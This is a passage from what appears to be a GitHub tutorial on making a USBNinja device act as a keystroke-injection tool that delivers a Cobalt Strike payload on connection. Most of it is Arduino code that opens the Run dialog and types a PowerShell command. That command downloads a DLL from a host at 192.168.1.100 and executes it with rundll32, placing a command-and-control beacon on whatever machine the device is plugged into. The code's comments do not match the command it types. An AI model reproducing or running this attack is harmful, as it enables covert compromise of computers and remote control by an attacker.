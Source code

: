 ### Cobalt Strike payload (run on connection)

USBNinja can also be used in RubberDucky mode and execute payload as soon as it's connected. To do this we can use the same payload but place it in `loop()` function.

As by default Arduino is executing everything in loop() function in a infinite loop, but we can add a flag that would check if we already executed the payload. To do this we need to create a flag outside of `loop()` function:

```c
bool execute_once = true;
```

Now we need to add a check in `loop()` function:

```c
void loop() {
    // Check if we already executed the payload
    if (execute_once) {
        // Initiate keyboard
        USBninjaOnline();
        NinjaKeyboard.begin();
        NinjaKeyboard.delay(1000);
        // Send HID '0' to compatibility Win7
        NinjaKeyboard.sendKeyStroke(0);
        NinjaKeyboard.delay(1000);
        // WIN + R
        NinjaKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT);
        NinjaKeyboard.delay(100);
        // Start PowerShell
        NinjaKeyboard.print(F("notepad.exe"));
        NinjaKeyboard.delay(100);
        // ENTER
        NinjaKeyboard.sendKeyStroke(KEY_ENTER);
        NinjaKeyboard.delay(500);
        // Download, execute payload and exit powershell
        NinjaKeyboard.println(F("(New-Object System.Net.WebClient).DownloadFile(\"http://192.168.1.100:8081/https.dll\", \"C:\\Users\\Public\\Documents\\https.dll\"); rundll32 C:\\Users\\Public\\Documents\\https.dll,Start; exit"));
        NinjaKeyboard.delay(100);
        // Stop and remove keyboard
        NinjaKeyboard.end();
        USBninjaOffline();

        // Set flag
        execute_once = false;
    }
}
```

Please note, that during testing USBNinja started executing payload as soon as it finished uploading, so try not to spawn any beacons on your machine.

Full code file can be found [here](https://github.com/4d4c/USBNinjasrc/branch/master/payload_examples/powershell_command/powershell_command.ino).

---